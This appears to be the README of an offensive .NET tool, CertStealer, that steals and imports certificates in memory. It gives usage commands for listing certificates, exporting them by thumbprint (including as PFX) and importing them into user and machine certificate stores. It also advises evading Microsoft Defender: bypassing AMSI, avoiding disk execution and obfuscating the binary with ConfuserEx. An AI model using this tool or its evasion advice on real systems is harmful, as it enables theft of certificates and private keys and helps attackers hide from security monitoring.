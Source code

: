 # CertStealer

A .NET tool for stealing and importing certificates without touching disk.

This tool is flagged as malware by Defender, even though it's custom. It is misidentified as some particular strain of publically known malware. As such, DO NOT run it from disk on-target. DO NOT run it in memory on target WITHOUT AMSI BYPASSED. And DO obfuscate it with a tool like ConfuserEx, just in case.


```
Examples:

Display this help message: CertStealer.exe --help
Listing all certs: CertStealer.exe --list
Exporting a cert by its thumbprint: CertStealer.exe -export AF724CB571166C24C0799E65BE4772B10814BDD2
Exporting a cert by its thumbprint as PFX: CertStealer.exe -export pfx AF724CB571166C24C0799E65BE4772B10814BDD2
Importing a cert into the My store in CurrentUser: CertStealer.exe --import My user Dw...snipped...gY=
Importing a cert into the CA store in LocalMachine: CertStealer.exe --import CA local Dw...snipped...gY=
Use verbose output (works for list and import): CertStealer.exe --list --verbose
```